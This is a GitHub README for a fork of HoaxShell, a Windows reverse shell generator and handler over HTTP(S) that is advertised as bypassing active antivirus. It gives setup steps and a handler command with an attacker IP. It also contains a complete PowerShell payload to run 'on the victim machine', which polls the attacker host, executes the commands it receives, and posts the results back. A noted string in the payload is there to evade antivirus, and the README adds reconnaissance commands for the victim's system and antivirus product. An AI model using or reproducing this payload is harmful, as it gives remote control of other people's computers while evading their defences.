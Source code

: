 <h1 style="font-size:10vw" align="left">HoaxShell - Bypassing an Active Windows Security</h1>


[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-blueviolet.svg)](https://www.python.org/) <img src="https://img.shields.io/badge/Antivirus%20Bypassed-%E2%89%A5%20Yes-blue">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">


******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
Very grateful to the original script author [t3l3machus](https://github.com/t3l3machus)


## Description
Hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


******
## Step Guides
1. Install git, then clone the script from the github repository:

    ```bash
   sudo apt install git -y
   git clone https://github.com/asepsaepdin/hoaxshell.git
   ```

2. Install the requirements using pip3 command:

   ```bash
   sudo apt install python3-pip -y
   cd hoaxshell
   sudo pip3 install -r requirements.txt
   ```

3. Make the script executable

   ```bash
   chmod +x hoaxshell.py
   ```

4. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address

   ```bash
   ./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
   ```

   > **Notes**: specify -s options with the attacker IP address

6. Run the script in powershell on the victim machine with some obfuscation technique

   ```powershell
   $xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
   ```

   > **Notes**: insert the $xxxxx='None'; string for bypassing antivirus

7. Check the operating system information used by victim machine

   ```powershell
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
   ```

8. And check the antivirus product used by victim machine

   ```powershell
   Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
   ```




******
## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
